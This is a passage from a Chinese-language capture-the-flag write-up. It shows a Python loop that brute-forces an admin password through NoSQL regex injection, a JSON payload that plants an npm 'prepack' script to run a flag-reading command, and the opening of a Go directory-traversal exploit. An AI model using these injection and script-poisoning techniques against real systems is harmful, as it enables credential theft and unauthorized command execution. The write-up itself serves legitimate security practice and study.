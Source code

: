 ```python

for i in range(1,100):
    for j in strs:
        data = {"username":"admin","password[$regex]":"^{}".format(password+j)}
        r = r = requests.post(url,data=data)
        if "Login failed" not in r.text:
            password = password + j
            break
    print(password)
```
![](https://img-blog.csdnimg.cn/572deb2bff0d41e7915e65c0b8364e03.png)

得到admin的密码：dob2xdriaqpytdyh6jo3

### npm投毒
接下来看到`./routes/dashboardIndex.js`，发现执行了`npm pack`
![](https://img-blog.csdnimg.cn/3ede6c3718d64666b3c3afc29ebbcdba.png)

这里就很像npm投毒攻击，参考：[阿里云安全再次发现npm投毒攻击](https://sec-lab.aliyun.com/2021/11/19/%E9%98%BF%E9%87%8C%E4%BA%91%E5%AE%89%E5%85%A8%E5%86%8D%E6%AC%A1%E5%8F%91%E7%8E%B0npm%E6%8A%95%E6%AF%92%E6%94%BB%E5%87%BB/)
发现可以在`/dashboardIndex/SetDependencies`处修改package.json文件
![](https://img-blog.csdnimg.cn/d05974944c6d441baf0a1aea18f5be17.png)

那么我们就可以修改scripts来命令执行，POST传入
```json
{
  "scripts":{
    "prepack":"/readflag > /tmp/flag"
  }
}
```
然后访问`/dashboardIndex/PackDependencies`进行投毒，配合文件读取得到flag
![](https://img-blog.csdnimg.cn/833d108fb2f3467f9edef165563c6a28.png)

## d3go(复现)
题目描述：
>bs is new to the go programming language and recently found the new feature "go embed" very interesting. He has written an online decompression service that uses go embed to package static resource files. Your task is to exploit the vulnerability of this application, RCE it and get the flag.
It will shows ERR_EMPTY_RESPONSE at the beginning, please wait and refresh!
HINTS:
The Gamebox of d3go cannot connect to the Internet.

想不到啥好的思路，直到xux跟我说可以扫目录看看，试了一下发现
![](https://img-blog.csdnimg.cn/698a0c11512b4366bb132dbc07aad3bf.png)

发现全部都解析到了`./`，正巧前不久白帽酱发了一篇文章：[一个隐藏在Go语言标准库中的目录穿越漏洞 CVE-2022-29804](https://tttang.com/archive/1884/)
有个特征就是左侧被拼接路径为`./`，那么尝试进行目录穿越
![](https://img-blog.csdnimg.cn/abc49637097b457bad3aae9e8c4d32b5.png)

